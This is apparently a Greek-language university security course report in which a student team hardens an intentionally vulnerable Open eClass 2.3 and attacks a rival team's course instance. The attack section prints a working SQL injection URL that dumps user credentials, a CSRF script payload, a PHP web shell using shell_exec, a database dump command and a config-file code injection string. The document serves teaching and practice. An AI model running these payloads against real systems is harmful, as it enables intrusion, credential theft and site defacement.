 ##  Open eClass 2.3
Το repository αυτό περιέχει μια __παλιά και μη ασφαλή__ έκδοση του eclass.
Προορίζεται για χρήση στα πλαίσια του μαθήματος
[Προστασία & Ασφάλεια Υπολογιστικών Συστημάτων (ΥΣ13)](https://crypto.di.uoa.gr/csec/), __μην τη
χρησιμοποιήσετε για κάνενα άλλο σκοπό__.

##  2020 Project 1

Εκφώνηση: https://crypto.di.uoa.gr/csec/assets/projects/project1.pdf

###  Μέλη ομάδας
- 1115201300202, Κώστας Χατζόπουλος
- 1115201600141, Βασίλειος Πουλόπουλος
###  Report ομάδας: hackerz

## Άμυνα

### Cross Site Scripting
Tο **openeclass** δεν ήταν σχεδόν καθόλου προστατευμένο από επιθέσεις αυτού του τύπου.Χρησιμοποιήσαμε την βιβλιοθήκη **htmlpurifier** (Η **htmlpurifier** εντοπίζει τον κακόβουλο κώδικα και τον αφαιρεί.) για να προστατέψουμε τις εισόδους απο link που αποθηκεύονται στην server μεταβλητή **php_self** αλλά και για τις μεταβλητές που προέρχονται από είσοδο (**GET**/**POST**) και τυπώνεται το περιεχόμενό τους στον ιστότοπο. Τα δεδομένα που έρχονται από είσοδο του χρήστη και αποθηκεύονται στη βάση, πλέον δεν περιέχουν τον κακόβουλο κώδικα.

### Sql Injection
Το **openeclass** δεν είχε σε κανένα σημείο **prepared statements** αλλά σε κάποια queries γινόταν χρήση των συναρτήσεων **mysql_real_escape_string()**, **autoquote()**, **addslashes()** και **intval()** τα οποία δεν προστατεύουν πλήρως τον ιστότοπο ενώ σε κάποια άλλα δεν υπήρχε καθόλου προστασία. Χρησιμοποιήσαμε την συνάρτηση **intval()** όταν στο query υπήρχαν  μόνο ακέραιοι αριθμοί και όταν υπήρχαν και strings αντικαταστήσαμε τα αρχικά queries με **prepared statements**.

### Cross-Site Request Forgery
Στο **openeclass** δεν υπήρχε καμία προστασία για επιθέσεις αυτού του τύπου. Για να το διορθώσουμε βάλαμε σε κάθε ενέργεια που θα μπορούσε να γίνει κάτι σημαντικό (π.χ. διαγραφές, εισαγωγές, ενημερώσεις) ένα **random token** το οποίο ελέγχεται όταν γινει η ενέργεια μέσω της μεταβλητής **$_SESSION['form_token']** που σημαίνει ότι πριν τυπωθει η συγκεκριμένη ενέργεια αποθηκεύεται το token. Αν το token είναι διαφορετικό η ενέργεια δεν γίνεται και ο χρήστης ανακατευθύνεται στην σελίδα που ήταν.  

### Remote File Injection
Για τις επιθέσεις RFI σε σημεία που μπορούσαν να ανέβουν αρχεία (**Ανταλλαγή Αρχείων**, **Εργασίες**) ο επιτιθέμενος μπορούσε να ανοίξει το φάκελο στον οποίο αποθηκεύονται τα αρχεία. Με αυτόν τον τρόπο θα μπορούσε να ανεβάσει κάποιο malicious script και πατώντας πάνω στο αρχείο του να το τρέξει. Για να προστατευτεί το site όταν ανεβαίνουν αρχεία το όνομα άλλαζε και γινόταν random. Αυτό δεν βοηθάει πολύ γιατί εφόσον ο επιτιθέμενος έχει πρόσβαση στο φάκελο μπορεί με διάφορους τρόπους να βρει το αρχείο του (π.χ. με το να μπει κατευθείαν αφού το ανεβάσει στο φάκελο και να πατήσει "last modified"). Για να αποτρέψουμε τις επιθέσεις RFI βάλαμε την εντολή **#Deny from All** σε **.htaccess** αρχεία σε αυτούς τους φακέλους που απαγορεύουν την πρόσβαση σε αυτούς μέσω του site.  Έτσι αφού δεν υπάρχει πρόσβαση στο φάκελο και τα ονόματα είναι random, ο επιτιθέμενος δεν έχει τρόπο να καταλάβει ποιό είναι το αρχείο του και να μπει σε αυτό ώστε να τρέξει. Επιπλέον, ακόμα και να μπορούσε να καταλάβει πως λέγεται το αρχείο του, δεν θα έτρεχε γιατί στο **.htaccess** εχουμε προσθέσει την εντολή **#php_flag engine off** οπότε τα .php αρχεία δεν μπορούν να τρέξουν.

## Επίθεση

### Cross Site Scripting
Οι αντίπαλοί μας είχαν προστατέψει αρκετά σημεία από xss αλλά βρήκαμε μερικά σημεία στα οποία μπορούμε να κάνουμε. Το ένα σημείο ήταν στις περιοχές συζητήσεων στο σώμα του μηνύματος αν πατηθεί η επιλογή για μετάβαση σε html. Επίσης στην αλλαγή στοιχείων παρατηρήσαμε πως αν βάλουμε κάποιο script σε κάποιο πεδιο (πχ στο όνομα), τότε σε μερικά σημεία του site που εμφανίζεται το όνομα, το script τρέχει(πχ όταν ο admin πάει να διαγράψει τον συγκεκριμένο χρήστη ή στη διαχείριση χρηστών). Αν ο χρήστης με το κακόβουλο script στο όνομά του συνδεθεί στο site, τότε το script τρέχει κάθε φορα που αλλάζει σελίδες, γιατι το όνομά του εμφανίζεται πάνω δεξιά στο site

### Sql Injection
Στο σημείο των συζητήσεων πήγαμε να κάνουμε "απάντηση" σε κάποιο θέμα και από το url επιχειρήσαμε να κάνουμε sql injection στη μεταβλητή topic, το οποίο καταφέραμε. Έτσι τρέχοντας το:
[http://web-sec-team.csec.chatzi.org/modules/phpbb/reply.php?topic=4 AND 1=2) UNION (select 1,2,3,GROUP_CONCAT(0x3c62723e, user_id, 0x3a, nom, 0x3a, prenom, 0x3a, username, 0x3a, password) from eclass.user) --  &forum=1](http://web-sec-team.csec.chatzi.org/modules/phpbb/reply.php?topic=4%20AND%201=2%29%20UNION%20%28select%201,2,3,GROUP_CONCAT%280x3c62723e,%20user_id,%200x3a,%20nom,%200x3a,%20prenom,%200x3a,%20username,%200x3a,%20password%29%20from%20eclass.user%29%20--%20%20&forum=1)
καταφέραμε να πάρουμε τα στοιχεία των 7 πρώτων χρηστών. Ο πρώτος, ήταν ο drunkadmin. 
Άλλο ένα σημείο που καταφέραμε να κάνουμε sql injection εκμεταλλευόμενοι πάλι την παράμετρο topic ήταν το: 
[http://web-sec-team.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=2&forum=2](http://web-sec-team.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=2&forum=2)

### Cross-Site Request Forgery
Για να προστατευθεί η αντίπαλη ομάδα από csrf παρατηρήσαμε πως χρησιμοποιείται ένα token σε κάθε φόρμα που είχε σεταριστεί κατά το login. Παρόλα αυτά, στη σελίδα "Λίστα μαθημάτων/Ενέργειες" που βρίσκεται στη " Διαχείριση Πλατφόρμας" δεν τσεκάρετε το token ούτε στη διαγραφή μαθήματος ούτε στην επεξεργασία του, οπότε καταφέραμε να κάνουμε csrf. Επίσης μπορεί να γίνει csrf στην υποβολή βαθμού κάποιας εργασίας καθώς ούτε εκεί ελέγχεται το token. Επιπλέον δεν έχει μπει token και στην τηλεσυνεργασία οπότε αν έχουμε ένα site στο οποίο βάλουμε την εντολή

    <script>window.location.href = "http://web-sec-team.csec.chatzi.org/modules/conference/messageList.php?msg=&chatLine=test"</script>

και το πατήσει κάποιος χρήστης του eclass θα αναρτηθεί το μήνυμα "test" στην τηλεσυνεργασία απο το λογαριασμό του.

 
### Remote File Injection
Το αντίπαλο site δεν είχε ασφάλεια για RFI οπότε ανεβασαμε στην ανταλλαγή αρχείων διάφορα .php scripts και μάθαμε την ιεραρχία των φακέλων. Στη συνέχεια αλλάξαμε το αρχείο **tool_content.css** και το **theme.html** και προσθέσαμε το **index.html** ωστε να αλλάξουμε την αρχική σελίδα. Αυτά τα αρχεία τα αλλάξαμε έχοντας φτιάξει τις version που θέλαμε, τις ανεβάσαμε στο puppies και μετά ανεβάζαμε scripts με wget και τις βάζαμε στο site. Μετά ανεβάσαμε το παρακάτω script:

    <?php
    $input = '';
    if (isset($_POST['input'])) {
	    $input = $_POST['input'];
	    ?>
	    <form  method="post"  action="<?PHP $_SERVER[PHP_SELF] ?>">
	    <textarea  name="input"  rows="4"  cols="50"  value="<?php $input ?>"></textarea>
	    <input  type="submit"  name="submit"/>
	    </form>
	    <?php
	    echo "<pre style='border: 1px solid black; padding: 3px'>$input</pre>";
	    $output = shell_exec($input);
	    echo "<pre style='border: 1px solid black; padding: 3px'>$output</pre>";
    } else {
	    ?>
	    <form  method="post"  action="<?PHP $_SERVER[PHP_SELF] ?>">
	    <textarea  name="input"  rows="4"  cols="50"  value="<?php $input ?>"></textarea>
	    <input  type="submit"  name="submit"/>
	    </form>
	    <?php
    }
    ?>

 το οποίο τρέχει **shell commands** κατευθείαν απ' το browser μέσω φόρμας και βρίσκεται στο παρακάτω url:
 [http://web-sec-team.csec.chatzi.org/courses/TMA105/dropbox/5ea8b087l4hg.php](http://web-sec-team.csec.chatzi.org/courses/TMA105/dropbox/5ea8b087l4hg.php)

Έτσι μπορούσαμε να κάνουμε πρακτικά οτιδήποτε στο site εύκολα και χωρίς να ανεβάζουμε πολλά scripts. Με τη βοήθεια του script αυτού τρέξαμε εντολές ώστε να κάνουμε compress ολο το site, το αποθηκεύσαμε στο φάκελο στον οποίο βρισκόμασταν (εκεί που είχαν ανέβει τα scripts) και κατεβάσαμε από εκεί τον κώδικα στους υπολογιστές μας. Τότε από το config.php μάθαμε τον κωδικό της βάσης και χρησιμοποιήσαμε στο script μας την εντολή `mysql -u root --password="*********" --database=eclass --execute="SELECT * FROM user;"` οπότε αυτός ήταν ένας τρόπος να μάθουμε τα στοιχεία των χρηστών.

### Γενικές Παρατηρήσεις

Ο κωδικός του ηταν **md5 hashed**  οπότε μέσω **RFI** αλλάξαμε το αρχείο `include/login.php` και στο σημείο που γίνεται η σύγκριση του hashed κωδικού από είσοδο του χρήστη με τον hashed κωδικό από την βάση βγάλαμε την μετατροπή του κανονικού κωδικού σε md5 και ως είσοδο για τον κωδικό δώσαμε κατευθείαν τον hashed κωδικό από την φόρμα εισόδου. Με αυτόν τον τρόπο αποκτήσαμε πρόσβαση ως admin με αποτέλεσμα να υπάρχει η δυνατότητα να μάθουμε τον κωδικό μεσω του αρχείου ρυθμίσεων, ωστόσο δεν ήταν εφικτό να ανοίξουμε τη σελίδα ['Αρχείο ρυθμίσεων'](http://web-sec-team.csec.chatzi.org/modules/admin/eclassconf.php) καθώς η αντίπαλη ομάδα την είχε διαγράψει. Μέσα από το αρχείο ρυθμίσεων θα μπορούσαμε να κάνουμε και από εκεί deface μεσω των πεδίων της φόρμας. Για να γίνει αυτό θα έπρεπε να τοποθετήσουμε ως εισοδο σε κάποιο από τα πεδία το κείμενο: `"; echo "test` το οποίο θα κάνει inject στο αρχείο ρυθμίσεων τον php κώδικα: `echo "test"`. Αντί για το echo θα μπορούσαμε να τρέξουμε οποιαδήποτε άλλη php εντολή καθώς και **shell commands** μέσω της **shell_exec** οπότε θα ήταν ένας εύκολος τρόπος να κάνουμε deface όπως ακριβώς κάναμε και με το **RFI**

![config_edit_form](https://github.com/chatziko-ys13/2020-project-1-hackerz/blob/master/screenshots/config_edit_form.png?raw=true)

![config_edit_code](https://raw.githubusercontent.com/chatziko-ys13/2020-project-1-hackerz/master/screenshots/config_edit_code.png?token=AMOC6IZSWDS3I44ZEDUGNF26W2VS6)

> Το συγκεκριμένο πρόβλημα στο αρχείο ρυθμίσεων, το αντιμετωπίσαμε κάνοντας χρήση regular expressions ώστε να μη δέχεται συγκεκριμένους χαρακτήρες.

Θα μπορούσαμε να είχαμε δοκιμάσει και άλλες επιθέσεις πχ **XSS** στο ημερολόγιο και στη σελίδα "Ξεχάσατε το συνθηματικό σας;" η επιθέσεις **CSRF** στη μαζική δημιουργία λογαριασμων χρηστών ή στην ανάκτηση μαθήματος. Γενικά πολλές σελίδες είχανε διαγραφεί και δεν μπορέσαμε να δοκιμάσουμε όσα είχαμε στο μυαλό μας καθώς αρκετές σελίδες είχανε διαγραφεί.

## Bonus
### Defacement screenshots
![enter image description here](https://github.com/chatziko-ys13/2020-project-1-hackerz/blob/master/screenshots/2020-05-02-16-34-web-sec-team.csec.chatzi.org.png?raw=true)
![enter image description here](https://github.com/chatziko-ys13/2020-project-1-hackerz/blob/master/screenshots/2020-05-02-16-35-web-sec-team.csec.chatzi.org.png?raw=true)
